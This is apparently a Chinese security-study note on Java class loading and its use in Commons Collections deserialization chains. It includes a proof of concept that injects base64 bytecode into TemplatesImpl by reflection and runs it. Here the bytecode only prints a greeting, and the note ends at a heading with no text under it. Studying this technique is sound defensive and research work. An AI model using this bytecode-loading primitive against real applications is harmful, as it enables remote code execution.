

## ClassLoader#defineClass


ClassLoader原理 http://blog.sina.com.cn/s/blog_6383597b0100fsiw.html

## 双亲委派机制



https://blog.csdn.net/weixin_34874025/article/details/86673232

## 在CC链中的利用


```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.misc.BASE64Decoder;
import java.lang.reflect.Field;
public class HelloTemplatesImpl {
    public static void main(String[] args) throws Exception {
// source: bytecodes/HelloTemplateImpl.java
        byte[] code =
                new BASE64Decoder().decodeBuffer("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEA"+
                        "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP"+
                        "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0"+
                        "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCm"+
                        "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y"+
                        "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw"+
                        "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp"+
                        "bml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAb"+
                        "DAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwB"+
                        "AEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFj"+
                        "dFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5z"+
                        "bGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3Ry"+
                        "ZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5n"+
                        "OylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAIAAsA"+
                        "AAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAACgALAAAABAABAAwA"+
                        "AQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA0ABAAOAAwA"+
                        "DwABABAAAAACABE=");
        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _tfactory.setAccessible(true);
        _bytecode.setAccessible(true);
        _name.set(obj,"reader-l");
        _bytecode.set(obj,new byte[][]{code});
        _tfactory.set(obj,new TransformerFactoryImpl());
        obj.newTransformer();
    }
}
```


在TemplatesImpl方法中的调用链:


